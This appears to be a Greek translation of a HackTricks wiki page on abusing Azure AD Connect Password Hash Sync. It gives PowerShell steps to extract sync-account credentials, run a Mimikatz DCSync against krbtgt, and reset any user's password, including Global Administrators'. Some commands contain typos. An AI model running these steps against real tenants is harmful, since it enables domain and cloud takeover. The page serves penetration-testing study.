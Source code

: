 # Az - PHS - Password Hash Sync

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[Από τα έγγραφα:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Η συγχρονισμένη καταχώρηση κωδικών πρόσβασης** είναι μία από τις μεθόδους σύνδεσης που χρησιμοποιούνται για την επίτευξη υβριδικής ταυτότητας. **Το Azure AD Connect** συγχρονίζει ένα hash, του hash, του κωδικού πρόσβασης ενός χρήστη από μια τοπική εγκατάσταση Active Directory σε μια cloud-based Azure AD εγκατάσταση.

<figure><img src="../../../../images/image (173).png" alt=""><figcaption></figcaption></figure>

Είναι η **πιο κοινή μέθοδος** που χρησιμοποιούν οι εταιρείες για να συγχρονίσουν ένα τοπικό AD με το Azure AD.

Όλοι οι **χρήστες** και ένα **hash των κωδικών πρόσβασης** συγχρονίζονται από το τοπικό στο Azure AD. Ωστόσο, οι **κωδικοί πρόσβασης σε καθαρό κείμενο** ή οι **αρχικοί** **hashes** δεν αποστέλλονται στο Azure AD.\
Επιπλέον, οι **ενσωματωμένες** ομάδες ασφαλείας (όπως οι διαχειριστές τομέα...) **δεν συγχρονίζονται** στο Azure AD.

Η **συγχρονισμένη καταχώρηση** συμβαίνει κάθε **2 λεπτά**. Ωστόσο, από προεπιλογή, η **λήξη κωδικού πρόσβασης** και η **λήξη λογαριασμού** **δεν συγχρονίζονται** στο Azure AD. Έτσι, ένας χρήστης του οποίου ο **τοπικός κωδικός πρόσβασης έχει λήξει** (δεν έχει αλλάξει) μπορεί να συνεχίσει να **έχει πρόσβαση σε πόρους Azure** χρησιμοποιώντας τον παλιό κωδικό πρόσβασης.

Όταν ένας τοπικός χρήστης θέλει να αποκτήσει πρόσβαση σε έναν πόρο Azure, η **αυθεντικοποίηση πραγματοποιείται στο Azure AD**.

**PHS** απαιτείται για χαρακτηριστικά όπως **Identity Protection** και AAD Domain Services.

## Pivoting

Όταν το PHS είναι ρυθμισμένο, μερικοί **προνομιούχοι λογαριασμοί** δημιουργούνται αυτόματα:

- Ο λογαριασμός **`MSOL_<installationID>`** δημιουργείται αυτόματα στο τοπικό AD. Αυτός ο λογαριασμός έχει ρόλο **Directory Synchronization Accounts** (βλ. [τεκμηρίωση](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) που σημαίνει ότι έχει **δικαιώματα αναπαραγωγής (DCSync) στο τοπικό AD**.
- Ένας λογαριασμός **`Sync_<name of on-prem ADConnect Server>_installationID`** δημιουργείται στο Azure AD. Αυτός ο λογαριασμός μπορεί να **επαναφέρει τον κωδικό πρόσβασης ΟΠΟΙΟΥΔΗΠΟΤΕ χρήστη** (συγχρονισμένο ή μόνο cloud) στο Azure AD.

Οι κωδικοί πρόσβασης των δύο προηγούμενων προνομιούχων λογαριασμών **αποθηκεύονται σε έναν SQL server** στον διακομιστή όπου **είναι εγκατεστημένο το Azure AD Connect.** Οι διαχειριστές μπορούν να εξάγουν τους κωδικούς πρόσβασης αυτών των προνομιούχων χρηστών σε καθαρό κείμενο.\
Η βάση δεδομένων βρίσκεται στο `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Είναι δυνατή η εξαγωγή της διαμόρφωσης από έναν από τους πίνακες, ο οποίος είναι κρυπτογραφημένος:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Η **κρυπτογραφημένη διαμόρφωση** είναι κρυπτογραφημένη με **DPAPI** και περιέχει τους **κωδικούς πρόσβασης του `MSOL_*`** χρήστη στο τοπικό AD και τον κωδικό πρόσβασης του **Sync\_\*** στο AzureAD. Επομένως, η παραβίαση αυτών επιτρέπει την ανύψωση προνομίων στο AD και στο AzureAD.

Μπορείτε να βρείτε μια [πλήρη επισκόπηση του πώς αποθηκεύονται και αποκρυπτογραφούνται αυτά τα διαπιστευτήρια σε αυτή την ομιλία](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Εάν ο **διακομιστής όπου είναι εγκατεστημένο το Azure AD connect** είναι συνδεδεμένος στο domain (συνιστάται στα έγγραφα), είναι δυνατή η εύρεση του με:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Κατάχρηση MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
> [!CAUTION]
> Μπορείτε επίσης να χρησιμοποιήσετε [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) για να αποκτήσετε αυτά τα διαπιστευτήρια.

### Κατάχρηση Sync\_\*

Η παραβίαση του **`Sync_*`** λογαριασμού επιτρέπει την **επανεκκίνηση του κωδικού πρόσβασης** οποιουδήποτε χρήστη (συμπεριλαμβανομένων των Παγκόσμιων Διαχειριστών)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Είναι επίσης δυνατό να **τροποποιήσετε τους κωδικούς πρόσβασης μόνο των χρηστών του cloud** (ακόμα και αν αυτό είναι απροσδόκητο)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Είναι επίσης δυνατό να εκχυθεί ο κωδικός πρόσβασης αυτού του χρήστη.

> [!CAUTION]
> Μια άλλη επιλογή θα ήταν να **ανατεθούν προνομιακές άδειες σε έναν υπηρεσιακό κύριο**, τον οποίο ο χρήστης **Sync** έχει **δικαιώματα** να κάνει, και στη συνέχεια να **προσεγγιστεί αυτός ο υπηρεσιακός κύριος** ως τρόπος privesc.

### Seamless SSO

Είναι δυνατό να χρησιμοποιηθεί το Seamless SSO με το PHS, το οποίο είναι ευάλωτο σε άλλες καταχρήσεις. Ελέγξτε το εδώ:

{{#ref}}
seamless-sso.md
{{#endref}}

## Αναφορές

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
- [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{{#include ../../../../banners/hacktricks-training.md}}
